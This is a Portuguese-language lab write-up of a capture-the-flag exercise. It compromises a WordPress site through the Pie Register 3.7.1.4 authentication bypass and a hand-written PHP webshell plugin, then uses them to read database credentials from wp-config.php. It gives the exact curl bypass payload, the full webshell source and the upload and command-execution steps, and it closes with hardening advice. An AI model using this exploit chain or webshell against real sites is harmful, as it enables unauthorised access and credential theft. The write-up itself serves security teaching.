

# Write-Up: Hacking WordPress - Laboratório CWSE

## 🎯 Visão Geral do Laboratório

Este repositório contém o write-up detalhado para o desafio de segurança em WordPress do laboratório CWSE.

### O Desafio

O objetivo final do laboratório é responder à seguinte questão, encontrando a flag correspondente:

> **"What is the password used by WordPress to connect to the database?"**

![[Images/01-desafio.png]]

Para alcançar esse objetivo, este documento detalha o processo de exploração de uma vulnerabilidade no plugin "Pie Register" para obter acesso administrativo, executar código remotamente (RCE) e, finalmente, ler o arquivo `wp-config.php` para encontrar a senha do banco de dados.


## 📜 Sumário (Table of Contents)

- [Visão Geral do Laboratório](#-visão-geral-do-laboratório)
  - [O Desafio](#o-desafio)
- [Fase 1: Enumeração e Pesquisa de Vulnerabilidades](#-fase-1-enumeração-e-pesquisa-de-vulnerabilidades)
  - [1.1 - Enumeração de Plugins com WPScan](#11---enumeração-de-plugins-com-wpscan)
  - [1.2 - Confirmação da Vulnerabilidade no Exploit-DB](#12---confirmação-da-vulnerabilidade-no-exploit-db)
- [Fase 2: Obtendo Acesso com `curl`](#-fase-2-obtendo-acesso-com-curl)
  - [2.1 - O Comando Decisivo](#21---o-comando-decisivo)
  - [2.2 - A Prova do Sucesso](#22---a-prova-do-sucesso)
- [Fase 3: Execução Remota de Código (RCE) via Plugin](#-fase-3-execução-remota-de-código-rce-via-plugin)
  - [3.1 - O Plugin "Canivete Suíço"](#31---o-plugin-canivete-suíço)
  - [3.2 - A Caça ao Nonce](#32---a-caça-ao-nonce)
  - [3.3 - Upload do Plugin](#33---upload-do-plugin)
- [Fase 4: Capturando a Flag](#-fase-4-capturando-a-flag)
  - [4.1 - Encontrando o `wp-config.php`](#41---encontrando-o-wp-configphp)
  - [4.2 - Lendo o Arquivo e Obtendo a Senha](#42---lendo-o-arquivo-e-obtendo-a-senha)
- [Conclusão e Recomendações](#-conclusão-e-recomendações)

---

---

## 🕵️ Fase 1: Enumeração e Pesquisa de Vulnerabilidades

Dado que este é um laboratório focado em WordPress, a ação inicial foi utilizar o **WPScan** para mapear a superfície de ataque da aplicação.

### 1.1 - Enumeração de Plugins com WPScan

A enumeração de plugins (`--enumerate p`) é um passo fundamental, pois eles são um dos vetores de ataque mais comuns. O seguinte comando foi executado:

```bash
wpscan --url http://172.20.7.90 --enumerate p
```

O resultado do WPScan foi crucial, identificando a presença do plugin **"Pie Register"** e detectando sua versão como **3.7.1.4**.

### 1.2 - Confirmação da Vulnerabilidade no Exploit-DB

Com o nome e a versão do plugin em mãos, o próximo passo foi pesquisar por vulnerabilidades conhecidas em bancos de dados públicos. Uma busca rápida no **Exploit-DB** confirmou as suspeitas.

A pesquisa revelou uma entrada crítica para a versão 3.7.1.4: **Authentication Bypass to RCE**. Isso confirmou que havia um caminho claro para a exploração.


Com a vulnerabilidade confirmada, o plano de ataque estava definido. A próxima fase seria explorar essa falha para obter acesso não autorizado.


---
---
---

## 💥 Fase 2: Obtendo Acesso com `curl`

Com a vulnerabilidade identificada, o próximo passo era explorá-la para obter uma sessão de administrador. Após tentativas iniciais de entender o fluxo de login, a solução foi encontrada em um exploit público que utiliza um método específico para enganar a função de "login social" do plugin.

### 2.1 - O Comando Decisivo

A primeira ideia seria uma manipulação manual com o Burp Suite. Contudo, a abordagem mais eficaz seria usar um comando `curl` diretamente no terminal. Este comando envia uma requisição `POST` para a raiz do site, contendo um payload específico que abusa da lógica de registro social do Pie Register para forjar uma sessão de login para o usuário com ID 1 (que, por padrão, é o "admin").

O seguinte comando foi executado para salvar os cookies de autenticação em um arquivo chamado `cookies.txt`:

```bash
curl -L -c cookies.txt -X POST http://172.20.7.90/ -d 'user_id_social_site=1&social_site=true&piereg_login_after_registration=true&_wp_http_referer=/login/&log=null&pwd=null'
```

**Análise do comando:**

- `-L`: Segue quaisquer redirecionamentos que o servidor envie.
- `-c cookies.txt`: Salva todos os cookies recebidos da resposta do servidor no arquivo `cookies.txt`.
- `-X POST http://172.20.7.90/`: Envia a requisição como um POST para a página inicial.
- `-d '...'`: O payload crucial. Ele simula um fluxo de login social pós-registro, mas força o `user_id_social_site` para `1`.

### 2.2 - A Prova do Sucesso

Imediatamente após a execução do comando, o conteúdo do arquivo `cookies.txt` foi verificado para confirmar o sucesso do exploit.

```bash
cat cookies.txt
```
O resultado foi inequívoco. O arquivo continha o cookie `wordpress_logged_in_...`, a chave necessária para o acesso administrativo total.


Com o cookie de administrador em mãos, o acesso ao painel estava garantido, e o caminho para a execução remota de código (RCE) estava aberto.

---

---

## 💻 Fase 3: Execução Remota de Código (RCE) via Plugin

Com a sessão de administrador garantida pelo `cookies.txt`, o próximo objetivo era transformar esse acesso em uma shell no servidor. A estratégia foi criar e fazer o upload de um plugin malicioso que funcionasse como um webshell.

### 3.1 - O Plugin "Canivete Suíço"

A experiência durante o laboratório sugeriu que funções comuns de execução de comando, como `system()`, poderiam estar desabilitadas na configuração do PHP do servidor. Para garantir o sucesso, foi necessário criar um plugin mais robusto, apelidado de "Canivete Suíço".

A lógica deste plugin é tentar usar, em sequência, várias funções de execução de comando (`system`, `passthru`, `exec`, `shell_exec`) até encontrar uma que não esteja bloqueada.

O código do plugin (`canivete.php`) foi o seguinte:

```php
<?php
/*
Plugin Name: Canivete Suico
*/
if(isset($_GET['cmd'])) {
    if(function_exists('system')) {
        system($_GET['cmd']);
    } elseif(function_exists('passthru')) {
        passthru($_GET['cmd']);
    } elseif(function_exists('exec')) {
        exec($_GET['cmd'], $output);
        print_r($output);
    } elseif(function_exists('shell_exec')) {
        echo shell_exec($_GET['cmd']);
    } else {
        echo 'Nenhuma funcao de comando disponivel.';
    }
}
?>
```

Para o upload, este arquivo foi colocado em um diretório e compactado no formato `.zip` esperado pelo WordPress.

```bash
mkdir caniveteplugin
echo '<?php /* Plugin Name: Canivete Suico */ if(isset($_GET["cmd"])) { if(function_exists("system")) { system($_GET["cmd"]); } elseif(function_exists("passthru")) { passthru($_GET["cmd"]); } elseif(function_exists("exec")) { exec($_GET["cmd"], $output); print_r($output); } elseif(function_exists("shell_exec")) { echo shell_exec($_GET["cmd"]); } else { echo "Nenhuma funcao de comando disponivel."; } } ?>' > caniveteplugin/canivete.php
zip -r caniveteplugin.zip caniveteplugin/
```

### 3.2 - A Caça ao Nonce

Requisições que alteram o estado do WordPress, como a instalação de um plugin, são protegidas por um token de uso único chamado "nonce" (`_wpnonce`). Sem um nonce válido, o servidor rejeita o comando. O nosso próximo passo, portanto, era caçar esse token.

O processo para obter o nonce via linha de comando é o seguinte:

**1. Navegar Autenticado até a Página de Upload:**
Primeiro, usamos o `curl` e o nosso `cookies.txt` para "visitar" a página de upload de plugins e salvar o HTML dela em um arquivo. A página não é uma "pasta", mas sim uma URL que só pode ser acessada por um administrador logado.

```bash
curl -b cookies.txt "http://172.20.7.90/wp-admin/plugin-install.php?tab=upload" > upload_page.html
```
- `-b cookies.txt`: "Navega" usando nossa sessão de admin.
- `> upload_page.html`: Salva todo o código-fonte da página em um arquivo local.

**2. Extrair o Nonce do HTML:** Com a página salva, usamos o `grep` para vasculhar o arquivo `upload_page.html` e encontrar a linha que contém o `_wpnonce`.

```bash
grep '_wpnonce' upload_page.html
```
Este comando irá cuspir a linha de código que contém o nonce. O valor que precisamos estará dentro do atributo `value` de um campo de formulário escondido (`<input type="hidden" ...>`).

Com o nonce finalmente em mãos, é possível seguir para a etapa final do upload.

### 3.3 - Upload do Plugin

Armado com o cookie de sessão e o nonce recém-extraído, o comando final de upload pôde ser montado e executado:
```bash
curl -v -b cookies.txt -F "_wpnonce=44fc9fb434" -F "pluginzip=@caniveteplugin.zip" -F "install-plugin-submit=Install Now" "http://172.20.7.90/wp-admin/update.php?action=upload-plugin"
```

A resposta do servidor foi a recompensa por toda a investigação: a confirmação de que o acesso era legítimo. O ==nonce== era válido e o plugin foi instalado com sucesso.


---

---

## 🏁 Fase 4: Capturando a Flag

Com o plugin "Canivete Suíço" instalado e ativo no servidor, o passo final era usá-lo para encontrar e ler o arquivo de configuração do WordPress.

### 4.1 - Encontrando o `wp-config.php`

Para garantir que o arquivo seria encontrado, independentemente de sua localização no sistema de arquivos, o comando `find` foi executado através do webshell. O `2>/dev/null` foi adicionado para suprimir quaisquer erros de permissão e manter a saída limpa.

```bash
curl "http://172.20.7.90/wp-content/plugins/caniveteplugin/canivete.php?cmd=find%20/%20-name%20wp-config.php%202%3E/dev/null"
```
O comando retornou o caminho absoluto do arquivo de configuração: `/var/www/html/wp-config.php`.


### 4.2 - Lendo o Arquivo e Obtendo a Senha

Com o caminho exato do arquivo em mãos, um último comando `curl` foi executado. Desta vez, o comando `cat` foi usado para ler o conteúdo do arquivo, e o resultado foi filtrado com `grep` para exibir apenas a linha que continha a senha do banco de dados, a flag final do desafio.

```bash
curl "http://172.20.7.90/wp-content/plugins/caniveteplugin/canivete.php?cmd=cat%20/var/www/html/wp-config.php" | grep "DB_PASSWORD"
```


---

---


## ✅ Conclusão e Recomendações

Este laboratório demonstrou uma cadeia de exploração clássica e realista em um ambiente WordPress: da enumeração inicial à descoberta de uma vulnerabilidade em um plugin, seguida por um bypass de autenticação e, finalmente, a execução remota de código para capturar a flag.

**Principais aprendizados:**
-   **Plugins são o principal vetor de ataque:** A enumeração de plugins com ferramentas como o WPScan deve ser sempre o primeiro passo.
-   **Nem todos os exploits são diretos:** Foi necessário adaptar a abordagem, saindo de uma tentativa de manipulação de cookies no Burp para um comando `curl` mais específico que explorava a lógica de login social.
-   **Hardening de PHP funciona:** A possível desativação de funções como `system()` exigiu a criação de um webshell mais versátil (o "Canivete Suíço") para encontrar uma função de execução de comando que estivesse liberada.

**Recomendações de Segurança:**
-   Manter todos os plugins, temas e o core do WordPress sempre atualizados.
-   Remover ou desativar plugins que não estão em uso.
-   Implementar um Web Application Firewall (WAF) para mitigar ataques conhecidos.
-   Revisar e restringir as permissões de arquivos e diretórios no servidor.

